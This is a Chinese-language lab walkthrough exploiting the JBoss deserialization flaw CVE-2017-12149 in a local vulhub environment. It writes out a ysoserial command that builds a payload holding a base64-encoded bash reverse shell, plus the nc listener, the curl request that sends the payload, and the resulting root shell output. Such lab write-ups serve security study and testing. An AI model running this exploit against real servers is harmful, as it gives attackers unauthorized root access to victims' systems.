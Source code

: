# CVE-2017-12149

漏洞环境搭建，下在vulhub，cd到对应的目录执行以下命令

{% embed url="https://github.com/vulhub/vulhub" %}

```
docker-compose up -d
```

好了访问目标8080端口

<figure><img src="../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

访问/invoker/readonly这个路径相应500，说明存在漏洞

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

漏洞利用环境准备，下载ysoserial用来生成利用链

{% embed url="https://github.com/frohoff/ysoserial.git" %}

执行以下命令生产POC

```
┌──(root㉿kali)-[~/Desktop/tool/jdk1.8.0_202/bin]
└─# ./java -jar ../../Deserialization/ysoserial/target/ysoserial-all.jar CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzLjEyOS85OTkyIDA+JjE=}|{base64,-d}|{bash,-i}" > /root/Desktop/test/poc.ser
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

nc开启监听

```
nc -lnvp 9992
```

通过burp发送poc没有没有返回shell

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

通过curl发送该poc

```
┌──(root㉿kali)-[~/Desktop/test]
└─# curl http://192.168.23.132:8080/invoker/readonly --data-binary @poc.ser
```

监听端口返回一个shell

```
┌──(root㉿kali)-[~]
└─# nc -nlvp 9992
listening on [any] 9992 ...
connect to [192.168.23.129] from (UNKNOWN) [192.168.23.132] 42670
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@81b0d810cbbf:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```
